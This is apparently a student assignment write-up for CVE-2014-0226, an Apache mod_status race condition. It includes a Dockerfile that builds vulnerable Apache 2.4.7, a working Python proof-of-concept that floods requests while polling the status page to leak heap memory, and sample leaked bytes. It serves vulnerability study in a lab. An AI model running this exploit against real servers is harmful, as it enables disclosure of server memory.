 # PS
- Bug Overview: Race condition in the mod_status module in the Apache HTTP Server before 2.4.10 allows remote attackers to cause a denial of service (heap-based buffer overflow), or possibly obtain sensitive credential information or execute arbitrary code, via a crafted request that triggers improper scoreboard handling within the status_handler function in modules/generators/mod_status.c and the lua_ap_scoreboard_worker function in modules/lua/lua_request.c.
- Aim: Write a working exploit for this CVE.
- Install vulnerable service in a VM/Docker and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.


# Bug overview

# Environment setup
We are running the service (Apache 2.4.7) Docker Container with base OS Ubuntu 16.04. Apache httpd is compiled with MPM worker 
```
./configure --enable-mods-shared=reallyall --with-included-apr
```

The Dockerfile describes the environment deployed
```dockerfile
FROM ubuntu:16.04
RUN apt-get update
# some basic tools and the required libraries used to build the server
RUN apt-get -y install unzip wget git less subversion python libtool-bin libtool autoconf build-essential vim libxml2 libexpat1-dev libpcre3-dev
# apache version 2.4.7
RUN wget https://github.com/apache/httpd/archive/refs/tags/2.4.7.zip
RUN mkdir /apache
RUN unzip 2.4.7.zip -d /apache
WORKDIR /apache/httpd-2.4.7
# installing apache portable runtime libarary
RUN svn co http://svn.apache.org/repos/asf/apr/apr/trunk srclib/apr
RUN ./buildconf
RUN ./configure --enable-mods-shared=reallyall --with-included-apr
RUN make
RUN make install
# copying the apache configuration
COPY ./apache2 /etc/apache2/
COPY ./poc.py .
# Setting the server status and extended status
RUN echo 'SetHandler server-status\nExtendedStatus On' >> /usr/local/apache2/conf/httpd.conf
EXPOSE 80
```

After setting the server, everything looks like
![](server1.png)
![](server2.png)

As we can see, the server logs the requests in the format  
`Server x-x (xxx): x|x|x [status] ... IP {REQUEST} [IP]` 
All we are interested in is the `{REQUEST}` field inside the curly brackets. We can safely ignore all other html tags and other fields in the response from the server while exploitation. 


# Exploit
```python
#!/usr/bin/env python
import httplib
import sys
import threading
import subprocess
import random
import re

INTERESTING = re.compile('\{(.*)\}')
# everything inside curly brackets {} as it would be the
# content we would get back from the scoreboard because of
# its log format

def find_leaks(string):
    leaks = []
    match = re.findall(INTERESTING,string)
    for leak in match:
        # if some string which is not fully our spam AAAA
        # or if it contaions notables its our original request
        if not leak or 'AAAA' in leak or 'notables' in leak:
            continue
        else:
            leaks.append(leak)
    if leaks:
        print(leaks)

def send_request(method, url):
    try:
        c = httplib.HTTPConnection('127.0.0.1', 80)
        c.request(method,url);
        if "foo" in url:
            find_leaks(c.getresponse().read())
        c.close()
    except Exception, e:
        print e
        pass

def mod_status_thread():
    while True:
        send_request("GET", "/foo?notables")

def requests():
    """
    Spamming ill-requests till we encounter a race condition
    """
    evil = ''.join('A' for i in range(random.randint(0, 1024)))
    while True:
        send_request(evil, evil)

# thread for mod status 
threading.Thread(target=mod_status_thread).start()
# 
threading.Thread(target=requests).start()
```


# Info Leak
After running the exploit for a while (after encountring a couple of race conditions), we gather a couple of info leak samples which are either some memory location (by the look of it 0x7fecXXXX) or some other memory available at the heap
```
['A\xb7\x04\x9ce\x7f']
['A4']
['A']
['A\xfc\x01pe\x7f']
['A2]`[26/Mar/2021:01:00:22 +0000]']
['A2:80']
['A\x9b\x01te\x7f']
['A________________                                       _________________________                                       ................................                                .........................                                       .........................
                          \x18']
```
Hence, we are in fact able to leak out information from the heap, which may in turn contain other unintentional information. However, the race condition is quite hard and rare to trigger, we were not able to develop and trigger an RCE, which is theoretically possible but significantly more invloved than standard binary exploitation. Moreover DOS might also not be demonstratable under the given setup without heavy traffic and the server wont crash since as soon as a thread ends up in race condition and is killed, apache server churns up a new thread in place of it. 
